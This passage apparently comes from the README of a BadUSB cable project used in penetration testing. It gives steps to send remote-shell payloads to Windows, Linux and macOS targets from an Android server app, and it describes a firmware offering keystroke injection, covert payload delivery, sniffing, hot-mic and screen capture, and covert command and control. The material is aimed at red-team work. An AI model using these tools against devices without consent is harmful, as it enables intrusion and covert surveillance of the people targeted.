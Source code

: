 ## Android Server

1. Open Evil Crow Server APP

2. Go to the web panel and type the following payload from Live Payload:

	* Windows Target: ShellWin "Evil Crow server IP" (example: ShellWin 192.168.85.230)
	* Linux Target: ShellNix "Evil Crow server IP" (example: ShellNix 192.168.85.230)
	* MacOS Target: ShellMac "Evil Crow server IP" (example: ShellMac 192.168.85.230)

3. Click on 'Run Payload'.

![Server](https://github.com/joelsernamoreno/EvilCrowCable-Wind/blob/main/images/server-android.jpg)

**Demo:** [Remote Shell](https://www.youtube.com/watch?v=FmkIHYdOxS4)

# Alternative Firmware: USB Army Knife

USB Army Knife is a powerful and compact offensive security tool designed for penetration testers, red teamers, and security researchers. Built primarily for ESP32-S3 based devices like the LilyGo T-Dongle S3, it combines multiple USB attack vectors and wireless capabilities into one highly flexible platform.
The firmware enables a wide range of attacks, including:

* USB HID (BadUSB) attacks using DuckyScript.
* Mass storage emulation with covert payload delivery.
* USB Ethernet adapter impersonation for network sniffing and traffic capture.
* WiFi and Bluetooth exploits via an enhanced fork of ESP32 Marauder.
* Hot mic and screen capture streamed over WiFi.
* Triggering attacks remotely, on a timer, or via an onboard UI.
* Covert command and control through a serial interface, even when the target machine is locked.

The system includes a mobile-friendly web interface for deploying and managing attacks, allowing full control using just a smartphone.

USB Army Knife supports various hardware platforms, mainly those based on ESP32-S3, with some functionality on ESP32-S2 and limited support for RP2040 devices. It is open-source and can be flashed via a browser or built from source.

In short, USB Army Knife is a versatile, low-cost, and covert physical access tool that fuses the best of HID, network, wireless, and storage-based attacks into a single USB device.

USB Army Knife is also compatible with the Evil Crow Cable Wind. However, due to hardware limitations (notably the lack of a microSD card slot, screen, and external buttons), some features are restricted. Instead, the internal flash memory is used to store payloads and data, which reduces overall capacity and flexibility. Additionally, thermal throttling may activate when running WiFi access points for long durations, but this can be mitigated by connecting the device to an existing WiFi network or disabling WiFi entirely.

Below is how to install the firmware:

1. The first step is to download and install Visual Studio Code: https://code.visualstudio.com/Download

![USBArmyKnife](https://github.com/joelsernamoreno/EvilCrowCable-Wind/blob/main/images/vscode-webpage.png)
